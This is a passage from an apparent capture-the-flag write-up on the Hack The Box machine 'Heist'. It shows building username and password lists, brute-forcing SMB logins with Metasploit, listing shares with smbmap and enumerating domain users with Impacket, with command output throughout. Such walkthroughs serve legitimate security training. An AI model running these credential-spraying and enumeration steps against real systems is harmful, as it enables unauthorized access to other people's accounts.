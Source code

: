 With all the credentials we have collected so far, lets create 2 files to store them.  

`user.txt`:
```
Hazard
hazard
rout3r
admin
```

`pass.txt`:
```
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

With some credentials, lets move on to the `smb` service on port 445. I will be using the `auxiliary/scanner/smb/smb_login` module in Metasploit to test the different combinations.

{% highlight bash %}
$ msfconsole
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS heist.htb
RHOSTS => heist.htb
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE user.txt
USER_FILE => user.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE pass.txt
PASS_FILE => pass.txt
msf5 auxiliary(scanner/smb/smb_login) > set THREADS 50
THREADS => 50
msf5 auxiliary(scanner/smb/smb_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/smb/smb_login) > run

[+] 10.10.10.149:445      - 10.10.10.149:445 - Success: '.\Hazard:stealth1agent'
[+] 10.10.10.149:445      - 10.10.10.149:445 - Success: '.\hazard:stealth1agent'
[*] heist.htb:445         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
{% endhighlight %}

Using `hazard:stealth1agent`, lets see what we can access in the `smb` shares!
{% highlight bash %}
$ smbmap -H heist.htb -u hazard -p stealth1agent
[+] Finding open SMB ports....
[+] User SMB session establishd on heist.htb...
[+] IP: heist.htb:445	Name: heist.htb                                         
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
{% endhighlight %}

I guess the `smb` service is a dead end? Maybe not. Using [Impacket](https://github.com/SecureAuthCorp/impacket)'s `lookupsid.py`, we are able to enumerate for other users on the machine.
{% highlight bash %}
$ python lookupsid.py Hazard:stealth1agent@heist.htb
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)